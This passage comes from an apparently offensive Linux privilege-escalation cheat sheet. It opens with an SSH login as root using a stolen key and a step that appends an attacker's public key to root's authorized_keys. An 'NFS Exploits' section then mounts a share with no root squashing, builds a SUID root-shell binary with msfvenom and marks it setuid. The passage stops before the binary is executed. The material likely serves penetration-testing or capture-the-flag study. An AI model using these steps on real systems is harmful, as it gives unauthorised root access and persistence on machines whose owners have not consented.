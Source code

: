 * Now we just have to connect

```bash
ssh -i root_key root@target
```

## Alternative

* Generate a key pair.

```bash
ssh-keygen
```

* It will generate two keys

```bash
id_rsa and id_rsa.pub
```

* We can try to add our public key to the server.

```bash
cat ~/.ssh/id_rsa.pub >> /mnt/root/.ssh/authorized_keys
```

---

## 18. NFS Exploits

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user and this method will not be helpful

* Check the NFS share configuration on the target:

```bash
cat /etc/exports
```

* mount the NFS Share on Attacker's Machine:

```bash
sudo mount -o rw,vers=3 IP:/tmp /mnt
```

### Exploits

* Transfer a malicious file to the Share from our machine:

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /mnt/shell.elf
```

* Still using our machine, make the file executable and set the SUID permission:

```bash
chmod +xs /mnt/shell.elf
```

* Back on the target, as the low privileged user, execute the file to gain a root shell:
